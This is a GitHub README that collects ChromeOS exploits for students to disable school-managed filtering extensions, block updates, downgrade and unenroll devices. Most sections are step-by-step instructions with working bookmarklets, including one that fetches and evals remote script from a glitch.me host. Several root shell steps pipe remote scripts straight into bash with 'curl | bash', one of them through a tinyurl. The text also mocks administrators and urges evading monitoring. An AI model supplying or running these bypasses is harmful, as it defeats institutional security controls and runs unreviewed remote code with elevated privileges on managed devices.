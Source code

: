 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destroy your computer if misused. So PLEASE, PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>

Please use these only when you have permission, I (3kh0) do not condone the use of any exploits for illegal purposes!
  
**ATTENTION ALL SYS ADMINS (aka communists)!!!**

Have fun patching all these and making the entire system unusable and having more emails to sift through about "thIs iS nOt WorKiNg!1!!1!"

(On a serious note for all the sysadmins viewing this, stop invading students privacy. They aren't animals, or inferior beings. Give them the privacy they need as a teenager. Here is even more proof: "https://raisingchildren.net.au/pre-teens/communicating-relationships/family-relationships/privacy-trust-teen-years". Quit your job now and give the students of our future a break from being watched.)

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>LTMEAT</b> Disable extensions</summary>

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are interested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhereblahblah/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. On the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs, and the extension will be dead. If nothing loads, you probably reloaded too late or spammed too slowly. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is highly misleading. Nobody blocked it--you need to find the correct extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should appear to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension, but now I can't load websites!**

If you just read the write-up, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners mean you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you needed to be spamming bookmark C faster. The most reliable fix is to restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension. Why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. Again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

[Baby method for slow people](https://ltmeat.bypassi.com/alt/1.txt)

*Need more help? [Ask in the discussions](https://github.com/3kh0/ext-remover/discussions)*

</details>

<details>
<summary><b>Temporary LTMEAT</b> Temporarily disable extensions</summary>

**A method of using LTMEAT that does not require `chrome://` urls.
Works by using 80-150 tabs to soak up memory.**

1. Create a bookmark with the link chrome://extensions/?id=idhereidkimaskid and name it “Kill switch”.

2. Create a new bookmark folder. Name it “spam.js”. Next, paste this link into your browser: chrome-extension://insertextidhere/background.js

3. Then right-click on your folder and hit “Add Page”. Press Enter.

4. Right-click on the folder again and hit “Bookmark Manager”. You should see your page. Click on it and hit Ctrl+C. Press Ctrl+V until you have 38 of them.

5. Go to a new tab and right-click your folder. Press “Open All (38)”.

6. Repeat step 3, then click on one of the tabs from this batch. Wait until the “this page is taking too long” popup appears. This will take 30-60 seconds. If it doesn’t, do chrome://restart and go back to step 2 and add 3-4 more pages to the folder.

7. Once the popup happens, right-click on one of the tabs closest to the right of the screen and hit “Duplicate”. Then, go to your “Kill switch” bookmark and look for a switch to flip, “Allow Access to File:// urls” or something. Then, click on the leftmost extension tab (one that opened from the main.js folder) and click “Close all tabs to the right”. KEEP THIS TAB OPEN!!!

Tips: Go to chrome://settings/performance and turn Memory Saver off, and in the box where it says “Keep these sites always active,” paste in the extension URL. I’ve noticed clicking on one of the tabs from the second batch seems to help with reliability.

</details>

<details>
<summary><b>Baby LTMEAT</b> Disable extensions</summary>

**Patched On Chrome Versions 115 And Above**

BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGED.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>NEW LTMEAT</b> Disable extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel, Then Here's A New Method For LTMEAT**

**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Create a bookmark folder and paste the extension page many times. (About 800 minimum is recommended assuming your Chromebook is average school quality) It is recommended that you add the extension page at the beginning of the folder.

2. Right-click and open all in a new window.

3. Close the window with all those tabs.

4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)

5. Flip the Allow access to file URLs switch in the extension settings and then you've bypassed the patch and the exploit is working.

6. Close everything, and you're good to go. If it didn't work, try adjusting the number of open tabs.


Bypassi should add this to his website as an Alternate Method # 2. With this workaround, LTMEAT can endure a longer life!

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this workaround

</details>

<details>
<summary><b>Baby NEW LTMEAT</b> Disable extensions</summary>

**Unpatched on 115 and above**

1. First of all, get your folder with 800+ extension page tabs and open it in a new window, for my Chromebook I used 800 extension page tabs as I feel it's the right amount for me

2. Close the newly opened Window with 800+ extension page tabs

3. Click into your folder, and open one of the extension page tabs in a new window, maybe waiting slightly longer to confirm it worked. If it loads, you did it wrong. If you see a "page unresponsive screen and a wait/exit page button," you did it right. BUT DO NOT CLICK THE EXIT PAGE BUTTON OR WAIT BUTTON. (Or if you want to do it fast, you can just see that the page always has a spinning loading circle)

4. Now go to `chrome://extensions/?id=yourblockerID`  Then scroll down and flick the "allow access to file URLs" lever and close the window with the one extension page tab remaining.

</details>

<details>
<summary><b>Print LTMEAT</b> Disable extensions with printing</summary>

1. Find your extension's largest file. This can usually be found by poking around in your extension's manifest.json.
2. Go to that page. and hit Ctrl+P. A print window should show up, with several pages in the top right.
3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you get that number, the longer the effect will last.
4. Reload. The page should start hanging.
5. Go to your extension's settings page, `chrome://extensions`.
6. Duplicate your "printing" tab, and go back to your extension's settings page.
7. Flip any switch you can find there. Usually, there'll be one titled "Allow Access to File:// [URI]s".
8. Enjoy


**Where do I find my extension's manifest.json?**
First, find your extension's ID. This is a 32-character code found on your extension's settings page, normally near or at the top. Then go to `chrome-extension://your-32-char-id-goes-here/manifest.json`

Credit to Bypassi for the original LTMEAT framework, and HUGE thanks to Swordmaster4321 for discovering that pages can be hung with printing and lots of help and suggestions.

</details>

<details>
<summary><b>LoMoH</b> Disable extensions</summary>

  **This exploit has been patched in Chrome OS 111 after being found and reported. It should have gotten admin protection sooner.**

  **About: LoMoH is a Chromebook exploit that uses the Chrome OS locked mode feature to soft disable enforced extensions (excluding Hapara Highlights if installed).**

HTML VERSION: <a href="https://tiny.cc/LoMoH">LoMoH HTML</a>

BOOKMARKLET VERSION: javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this exploit

</details>

<details>
<summary><b>Dextensify</b> Disable extensions</summary>

**Dextensify is an exploit that lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.**

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>, or download the file here [Dextensify.html](Dextensify.html)

Made by <a href="https://ading.dev/">ading2210</a>

</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this won't work if there's not a plugin in there.
3. Hit the start button then the `inspect` button, and execute the basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit
</details>

<details>
<summary><b>Corkey</b> Corrupt extensions</summary>

1. Esc+Refresh+Power and re-enroll (Enter recovery page), or you can just powerwash.
2. log into your Chromebook and immediately turn off wifi and do refresh+power to (instant restart)
3. Log back into your Chromebook with the wifi off. There should be something on the side of the connect wifi page that says log in offline or sign in as an existing user.
4. Go to chrome://extensions, turn on wifi, and wait for your school's blocking extension to appear.
5. As soon as it appears, turn off wifi and instant restart as fast as you can.
6. Log back in, go back to extensions, and wait. If it says your blocking extension could be corrupted or doesn't appear at all, then it worked (wait at least a minute with a close watch in case it comes back)
7. If it didn't work repeat from step 1.
8. If it did work, congrats you did it.

</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without an allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a DNS)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and the name of it (This does not matter, you can put anything), then
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on Discord.
- DNS will be up soon for those who have JavaScript bookmarklets blocked.
- This will not work if you have a blocklist this is only for if when you go to the web store it shows blocked

</details>

<details>
<summary><b> Point-Blank</b> Execute scripts on extension pages</summary>

This exploit allows you to execute scripts on extension pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked you're screwed.)
1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> ([if blocked](https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js)) on your school chromebook.
2. Make a bookmark with the code there.
3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by Chrome, reload (you have to actually have Securly ofc)
 
 If you have iBoss visit <a href="https://tinyurl.com/goofboss">here</a>.
For Cisco Umbrella, visit <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian (might not work), go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript running on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
https://dsc.gg/blue-hat-crew

This works only for iBoss, and Blocksi, If you don't have one of these, use New Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesn't work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your Chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school-issued Chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifi that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your Chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import ONC` button.
11. Import the newly-downloaded file.

**Extra notes**
- Your Chromebook will no longer automatically update. (as long as you are on a wifi that you CAUBed)
- Be careful not to stay on wifi for too long without using CAUB on it, otherwise, you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>CAUB via Flags</b> Prevent Updates</summary>

This alt exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a Chrome flag, you can convince your Chromebook not to automatically update.

<i>Getting started</i>

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead
2. Enable it and restart your device
3. Go to your network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your Chromebook will no longer automatically update.
- Chrome://flags must not be blocked by your school otherwise, this exploit will not work
- And you must be able to enable flags if it ain't blocked otherwise, this exploit won't work

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Blank3r is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

The exploit code is below.
1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the GUI is in launcher.js

2. Navigate to `chrome://extensions`.

3. Click on an extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the escape key. If it loads into Chrome Webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the ID of the extension into the prompt separated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>sh1mmer</b> Unenrollment</summary>  
sh1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, such as LTBEEF. This is a built-in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4GB of storage, some boards have small or bigger images, I recommend 16GB
2. A personal computer with access to downloading extensions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the Chromebook you wish to downgrade and check for your board under `Platform` (ex I have a c3100 and its board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the Chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/Chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extension, click on the settings button in the top right-hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your Chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>

<details>
<summary><b>E-Halcyon</b> Unenrollment Or Downgrade</summary>

First of all, you'll need a Linux PC or VM. WSL is not guaranteed to work.

Now, you'll need to boot into SH1MMER, and press the Un-Enroll option. It won't truly unenroll you if you've received the 112 updates patching unenrollment and downgrading, but it is still a necessary step for the rest of this. If you've never used SH1MMER before or don't have an image lying around, make sure to follow all the instructions on sh1mmer.me for unenrollment before proceeding with the rest of the tutorial here

Next, you need a version 107 recovery image corresponding to your board, which you can pick up from chrome100.dev. Once you've downloaded the right image for your board and have confirmed it's for version 107, unzip it and save it to a safe place. Now open up a terminal and type in the following commands (make sure to replace /path/to/recovery/image.bin with the actual path)

```
git clone https://github.com/MercuryWorkshop/RecoMod
cd RecoMod
chmod +x recomod.sh
sudo ./recomod.sh -i /path/to/recovery/image.bin --halcyon --rw_legacy
```

The script will modify the image in place, and it can now be flashed with a standard recovery tool onto a USB of your choice.

Enable developer mode and get to the dev mode block screen similarly to how you would with SH1MMER, then plug in the USB. The recovery screen will show up, and at this point, you need to start spamming the E key on your keyboard. It will begin a 5-minute wait sequence, and near the end of the 5 minutes start spamming E again. You will only have to wait 5 minutes once, subsequent boots will have the 5-minute wait omitted

The boot splash will show, and you will enter a special menu. Use arrow keys to navigate the cursor down to "activate halcyon environment" and press enter. Then navigate down to "Install halcyon semi-tethered" and wait for it to finish. Once it's finished, go back to "activate halcyon environment" and press "Boot halcyon semi-tethered". and you will be booted into a downgraded and unenrolled ChromeOS environment.

FAQ:
How does this work?
See the writeup for more information

Can the admins see that I'm doing this?
No.

Why don't my history/cookies/etc save after a reboot?
Unfixable restriction of cryptohome. See the writeup for more information

Why is my Chromebook "Missing or damaged?"
After installing E-Halcyon, you won't be able to boot Chrome OS normally. You'll have to keep the USB around to jumpstart the booting process

Where do I report bugs?
The RecoMod GitHub

Why does it say "E mode not activated" when I try to boot halcyon?
You spammed the E key when starting at the wrong time, or not at all

Credits:
CoolElectronics - RecoMod, working switch_root, and everything else
OlyB - Insight and contributions to the RecoMod script
vk6 - Created this website

</details>

<details>
<summary><b>Extension Inactivity hack</b> Inactive Extensions</summary>

1. First, do the Esc+Refresh+Power
2. Press ctrl+d, then enter
3. Will give you some bullcrap about dev mode being blocked press enter then you will go to a newly powerwashed Chromebook
4. Next, add wifi
5. Then sign into your account
6. Immediately turn wifi off before extensions load
7. Go to `chrome://settings/signOut`
8. Click turn off sync and personalization and then turn wifi back on go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` and click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything except for bookmarks

Note: Before you do any of this do it at home so that way you don't have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New TUA</b> Temporarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
1. go to the chrome-extension://blockeridhere/manifest.json page.

2. go to a new tab page and type in the URL Website you want to unblock. don´t go into that website yet just leave it inside the URL Box.

3. go back to chrome-extension://blockeridhere/manifest.json now create a bookmark called E. now click more and In the URL Box you put chrome://kill. now save that bookmark.

4. create another bookmark called D. click more In the URL Box copy and paste
   ```
   javascript:(function () {window.onbeforeunload = function() { return 1; };})()
   ```
  Into that URL Box and save that bookmark.

6. go back to chrome-extension://blockeridhere/manifest.json page and now click bookmark B. then quickly go back to the new tab page and click enter. now quickly spam bookmark D like 2 or more times now there should be a pop up called "do you want to close this page?" click cancel. now boom that website is unblocked until you turn off your chromebook or until you exit out of that website. then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://blockeridhere/manifest.json page. then click Bookmark E then go to a random website. then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet. then spam Bookmark D two or more times then a pop up should appear. quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://blockeridhere/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed, womp womp

</details>

<details>
<summary><b>Old TUA</b> Temporarily Unblock Any Website</summary>

1. Make a bookmark called tab close blocker. now click more on the bottom left corner. now in that URL BOX put in `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`
2. Go to a new page. now go into the URL BOX on the top and put https://YOUR WEBSITE HERE. do not click enter yet stay in that URL BOX.
3. Do search+esc now which should open task Manager. if search+esc doesn't work then click the three dots on the top right. now and scroll down until you find more tools click that and find task Manager.
4. Find your blocker extension and click it. now on the bottom right you should see a button called End process. click it now quickly click the URL BOX on the new page and click enter. now quickly spam the bookmark tab close blocker. now a pop up should come up it should have to buttons cancel and leave. click cancel.

IMPORTANT NOTE: You can not do this exploit if bookmarklets or the task manager is blocked. womp womp
</details>

<details>
<summary><b>Enterprise Enrollment Glitch</b> Unenroll/Bypass Enterprise Enrollment</summary>

This only works on Chrome versions 115 and above, and your school has not to have force enterprise enrollment on your school Chromebook

1. Powerwash your Chromebook

A) esc+refresh+power

B) then "ctrl"+"d" and then space or enter

2. Then add wifi
3. Now when it takes you to the enrolling screen or whatever immediately turn off wifi, then wait until it says enterprise enrollment has failed or something like that
4. There should be 2-3 buttons to use as a personal device and enroll manually and try again
5. Click use as a personal device, then add back wifi and then sign in and boom Unenrollment worked

If it doesn't work then your screwed, womp womp

</details>

<details>
<summary><b>Fakemurk</b> Trick your Chromebook into being in developer mode while being enrolled in your school's profile.</summary>

**Fakemurk is a script that can run in developer mode to trick your Chromebook into being in developer mode while being enrolled in your school's profile. You can use this to disable any extension, as well as have full access to the Chrome web store and Google Play store. This provides a personal Chromebook-like experience while still being enrolled.**

Go here and follow instructions: <a href="https://docs.google.com/document/d/1Pku_CbEG9SwQtnm0I188RtpdpW8nXQhiNdMp8PN7Mik/edit?pli=1">Fakemurk Doc</a>

</details>

<details>
<summary><b>Pollen</b> Chrome OS User Policy Editor</summary>

How To Use

- Normal
  - Note: Devmode **NEEDS** to be enabled.
  - Open Crosh
  - Run `shell`
  - Run `sudo su`
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/Pollen.sh | bash`
  - Done! It may take a few seconds for the new policy to apply. If it does not apply, press `alt+vol_up+x`.
- PollenFS (RootFS)
  - Note: Disabling RootFS **will** Soft-Brick your Chromebook when booting back into normal mode.
  - Note II: Devmode **NEEDS** to be enabled.
  - Open Crosh
  - Run `shell`
  - Run `sudo su`
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/RootFS.sh | bash`
  - Reboot
  - Go Through Steps 1-3 Again
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/PollenFS.sh | bash`
  - Done! Your Pollen configuration is now permanently applied!

It works by loading a custom user policy into chromeOS. (Similar to how policies on windows work.)  

Using this we can either disable RootFS permanently or temporarily to load it.  

CrOS does not have the folder to load it built-in, however, the src code is still there so we can manually create it.  

Then simply we just create the file and restart.

Credits
- Pollen Developer - Scaratek
- Discovery - Rafflesia
- Original Script Developer - OlyB
- Logo - Nitelite
- Fixed Bug - r58playz
- Added Policies - 5less-chromosones

To make your own modifications refer to the Pollen Wiki

<a href="https://github.com/MercuryWorkshop/Pollen/wiki#getting-your-policies">Pollen Modifaction Wiki</a>

Further reading:
- https://github.com/MercuryWorkshop/Pollen

</details>

<details>
<summary><b>Customized Pollen</b> Chrome OS Policy Editor Customized</summary>

**Customized Pollen for SH1mmered chrombook users.** 

The original pollen by Mercury Workshop: https://github.com/MercuryWorkshop/Pollen 

It removes all admin-installed extensions and that's kinda a problem for me so this is edited it to make it fit more for SH1mmer users

So I customized this one to edit lots of features  but to keep all admin-installed extensions

incognito mode: on (everything unblocked, idk if extensions like GoGauridan can see)

ExtensionSettings: all settings removed

HomepageLocation: chrome://newtab

NewTabPageLocation:             (left empty)

ManagedBookmarks: removed all school added bookmarks

PinnedLauncherApps: removed all force pinned apps to home bar

RestoreOnStartupURLs:   (set it so when you open a new window some schools force it to also open the school's homepage so its set back to new tab and no extra tabs)

WebAppInstallForceList: removed all force installed apps


How to run

Note: Devmode NEEDS to be enabled.
Open Crosh

Run
```
shell
sudo su
curl -Ls https://tinyurl.com/repollen | bash
```

Done! It may take a few seconds for the new policy to apply. If it does not apply, press `alt+vol_up+x`

Errors

If you have Linux enabled you will have to turn it off and turn it back on for it to work

THIS WILL RESET EVERY TIME YOU RESTART THE CHROMEBOOK SO YOU WILL NEED TO REDO THE PROCESS

</details>
  
<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill the extension by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capitalized.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit `tinyurl.com/AddSession` or [this link](https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession)
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, YouTube, and any Google service.
6. All extensions should stop working.
7. Note that you must repeat this every time you restart or sign out.
8. If your Chrome version is `v112`, this exploit will no longer work, the bypass to this is listed further on. Visit`chrome://settings/resetProfileSettings` click current settings, and it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.
`
**This was discovered by Zoroark**
</details>

<details>
<summary><b>Shimboot</b> Linux from RMA shim</summary>

Shimboot is a collection of scripts for patching a Chrome OS RMA shim to serve as a bootloader for a standard Linux distribution. It allows you to boot a full desktop Debian install on a Chromebook, without needing to unenroll it or modify the firmware.
  
**For more detailed information, please see the project's [README](https://github.com/ading2210/shimboot).**

Further reading:
- https://shimboot.ading.dev/
- https://github.com/ading2210/shimboot

Credit to [vk6](https://ading.dev/) for this exploit
</details>

<details>
<summary><b>Extention Inactivity hack</b> Inactive Extensions</summary>

1. First do the Esc+Refresh+Power

2. ctrl+d then enter

3. will give you some bullcrap about dev mode being blocked press enter then you will go to a newly restarted Chromebook

4. next add wifi-

5. then sign into your account

6. Immediately turn wifi off before extensions load

7. go to chrome://settings/signOut

8. click Turn off sync and personalization and then turn wifi back on and go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` and click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
